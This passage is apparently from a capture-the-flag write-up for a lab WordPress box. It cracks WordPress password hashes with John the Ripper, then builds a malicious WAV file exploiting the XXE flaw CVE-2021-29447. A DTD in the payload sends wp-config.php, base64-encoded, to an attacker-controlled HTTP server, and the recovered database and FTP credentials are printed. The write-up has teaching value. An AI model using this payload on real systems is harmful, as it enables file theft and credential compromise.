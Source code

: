 Trying to crack hashes:

```bash
~m» cat hashes.txt
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

~m» john -w=/usr/share/dict/rockyou.txt hashes.txt
...
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?)
```

The password worked for WP Login (user manager):

![image-20221129225555338](../../../images/articles/metatwo-writeup/image-20221129225555338.png)



We have the ability to upload Media files, and we also know this WP version is vulnerable to XXE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447

We create a vulnerable media file:

```bash
» echo -en 'RIFF\x85\x00\x00\x00WAVEiXML\x79\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.2:8000/xxe.dtd'"'"'>%remote;%init;%trick;]>\x00' > xxe.wav

» file xxe.wav
xxe.wav: RIFF (little-endian) data, WAVE audio
```

And then the malicious xxe.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.2:8000/?p=%file;'>" >
```



After running a python web server and uploading the malicious WAV file:

```bash
10.129.36.200 - - [29/Nov/2022 23:06:55] "GET /xxe.dtd HTTP/1.1" 200 -
10.129.36.200 - - [29/Nov/2022 23:15:22] "GET /?p=P...<stripped>...NCg== HTTP/1.1" 200 -
```

Then decoding it from base64:

```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
```